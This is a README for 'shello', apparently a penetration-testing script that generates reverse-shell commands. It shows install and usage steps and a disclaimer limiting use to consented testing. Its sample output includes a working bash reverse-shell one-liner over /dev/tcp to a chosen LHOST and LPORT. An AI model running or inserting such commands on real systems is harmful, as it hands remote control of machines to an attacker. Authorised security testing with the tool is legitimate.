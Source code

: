 # shello
A small script to generate reverse shells.

![image](https://user-images.githubusercontent.com/63207324/210773410-1e0baa45-187e-4955-8ed1-ed390951296f.png)

### Disclaimer:
This tool is only for testing and academic purposes and can only be used where strict consent has been given. Do not use it for illegal purposes! It is the end user’s responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this tool and software.

### Installation:

```shell
$ wget https://raw.githubusercontent.com/Yuma-Tsushima07/shello/main/shello.sh
$ chmod +x shello.sh
```

### Usage:

```shell
$ ./shello.sh
```
Choose a reverse shell which you want then specify your `LHOST` and `LPORT`:
![image](https://user-images.githubusercontent.com/63207324/210773593-ab49d902-d61d-452d-b650-c7575da3c266.png)

```sh
[+] Select an Option:  1

[ + ] Enter LHOST:   10.10.10.10

[ + ] Enter LPORT:  9001

[*] Your Bash-i Shell:  
sh -i >& /dev/tcp/10.10.10.10/9001 0>&1
```

